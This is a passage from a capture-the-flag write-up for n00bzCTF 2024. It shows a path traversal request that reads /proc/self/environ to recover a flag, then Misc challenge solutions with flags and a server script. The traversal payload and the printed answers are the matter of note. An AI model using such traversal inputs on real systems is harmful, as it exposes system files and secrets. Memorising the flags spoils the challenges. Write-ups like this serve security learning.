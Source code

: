 Turns out it actually is the `etc/passwd` file. Crazy. Now let’s find out the environment variables.

`/view?image=../../../../proc/self/environ` and decoding the base64, we get the flag.

```python
PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin␀
HOSTNAME=bed1b2061841␀FLAG=n00bz{Th3_3nv1r0nm3nt_det3rmine5_4h3_S3lF_d542cc29d35c}
␀LANG=C.UTF-8␀GPG_KEY=A035C8C19219BA821ECEA86B64E628F8D684696D␀
PYTHON_VERSION=3.10.14␀PYTHON_PIP_VERSION=23.0.1␀PYTHON_SETUPTOOLS_VERSION=65.5.1␀
PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/66d8a0f637083e2c3ddffc0cb1e65ce126afb856/public/get-pip.py␀PYTHON_GET_PIP_SHA256=6fb7b781206356f45ad79efbb19322caa6c2a5ad39092d0d44d0fec94117e118␀HOME=/home/chall␀
```

Flag: `n00bz{Th3_3nv1r0nm3nt_det3rmine5_4h3_S3lF_d542cc29d35c}`

## Misc

### **Sanity Check**

Welcome to n00bzCTF 2024! Join our [discord](https://discord.gg/Kze7sjpgf7) server to get the flag! Author: `n00bzUnit3d`

Join discord and scroll into #Announcements.

Flag: `n00bz{w3lc0m3_t0_n00bzCTF2024!}`

### **Addition**

My little brother is learning math, can you show him how to do some addition problems? Author: Connor Chang

**Attachments**

- [server.py](https://static.n00bzunit3d.xyz/Misc/Addition/server.py)
- nc 24.199.110.35 42189

```python
import time
import random

questions = int(input("how many questions do you want to answer? "))

for i in range(questions):
    a = random.randint(0, 10)
    b = random.randint(0, 10)

    yourans = int(input("what is " + str(a) + ' + ' + str(b) + ' = '))

    print("calculating")

    totaltime = pow(2, i)

    print('.')
    time.sleep(totaltime / 3)
    print('.')
    time.sleep(totaltime / 3)
    print('.')
    time.sleep(totaltime / 3)

    if yourans != a + b:
        print("You made my little brother cry 😭")
        exit(69)

f = open('/flag.txt', 'r')
flag = f.read()
```